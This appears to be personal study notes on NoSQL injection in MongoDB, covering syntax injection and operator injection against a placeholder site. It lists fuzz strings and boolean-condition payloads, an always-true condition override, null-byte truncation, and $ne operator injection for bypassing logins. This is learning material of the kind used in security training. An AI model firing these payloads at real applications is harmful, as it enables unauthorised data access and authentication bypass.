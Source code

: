 -  NoSQL syntax injection - break nosql syntax and execute query 
-  Operator injection - abuse nosql operatoors like $where
  


## NoSQL syntax injection

- like sql injection in queries `break the query syntax` and exploit

#### Detecting syntax injection in MongoDB


- test each input by submitting fuzz strings and special characters

#### FUZZ STRINGS

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```


#### TESTING

https://insecure-website.com/product/lookup?category=fizzy

in sever the query is handled as 

``this.category == 'fizzy'``

- we handle fizzy as input 

- now fuzz the input with the *FUZZ STRINGS*

- check the response and analyse

- determine which character is processed like single quote or double quote

``this.category == '''``

`this.category == '\''`

- now we check for boolean influence (eg to bypass or data retrieval)


- for false output expectation
`https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x`
- here no categories are displayed since query is false ,

- for true 
`https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x`
- suggests that the false condition impacts the query logic
- here the category fizzy displayed so ==boolean influence==


#### Overriding existing conditions

- use or `||` operator like output always returns true

`https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1`

- here the server query seems ,

`this.category == 'fizzy'||'1'=='1'`

- thus existing condition overrides and displays all categories


- ==MongoDB may ignore all characters after a null character==

- if server query is 

``this.category == 'fizzy' && this.released == 1``

after null character injection in fizzy as input


`this.category == 'fizzy'\u0000' && this.released == 1`

this would display unreleased object



## operator injection


- operator provide ways to specify conditions to fetch data from db 

- $where, $ne , $in , $regex https://chatgpt.com/share/67641e0a-8aec-800a-8b66-c2ec7950455c


### Injecting into query operators

1) if the server query is
`{"username":"wiener"}

here we can control wiener input

`{"username":{"$ne":"invalid"}}` ==> username != invalid which is true


2) `username=wiener` becomes `username[$ne]=invalid`



doesn't work

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.



		












